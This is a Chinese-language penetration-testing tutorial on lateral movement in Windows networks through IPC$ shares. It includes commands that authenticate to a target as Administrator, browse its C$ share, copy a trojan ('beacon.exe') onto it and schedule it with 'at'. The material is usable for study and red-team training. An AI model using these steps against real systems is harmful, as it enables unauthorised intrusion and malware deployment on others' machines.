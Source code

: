 # 内网横向移动

# 横向移动间的文件传输

## IPC横向移动

`Windows`系统中的网络共享功能可以实现局域网之间的文件共享，通过提供有效的用户凭据，用户可以轻松地将文件从一台主机传输到另一台主机。

命令`net share`可以获得`Windows`系统默认开启的网络共享，其中`C$`为`C`盘共享，`ADMIN$`为系统目录共享，另外还有一个便是`IPC$`共享。

`IPC`（`Internet Process Connection`）是共享“命名管道”的资源，为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通信并以此通道进行加密数据的交换，从而实现对远程计算机的访问。
在实战中，攻击者往往会建立`IPC$`连接，通过`IPC$`连接，不仅可以进行所有文件共享操作，还可以实现其他远程管理操作，如列出远程主机进程、在远程主机上创建计划任务或系统服务等。

建立`IPC$`连接需要具备以下两个条件：

- 知道目标机的账户密码；
- 远程主机开启了`IPC`连接；
- 远程主机的`139`端口和`445`端口是开放的。

命令：

```powershell
# 建立IPC连接
# net use \\<IP/Hostname>\IPC$ <Password> /user:"Username"
net use \\10.10.10.137\IPC$ "H3rmesk1t@2023" /user:"Administrator"

# 断开IPC连接
# net use \\<IP/Hostname>\ipc$ /del
net use \\10.10.10.137\IPC$ /del

# 查看是否建立连接
net use

# 执行命令, 列出远程主机的C盘Administrator用户共享目录
dir \\10.10.10.137\C$\Users\Administrator\

# 拷贝木马
copy beacon.exe \\10.10.10.137\C$

# 创建计划任务(at<2012, schtasks>=2012)
at \\10.10.10.137 00:00 C:\beacon.exe
```

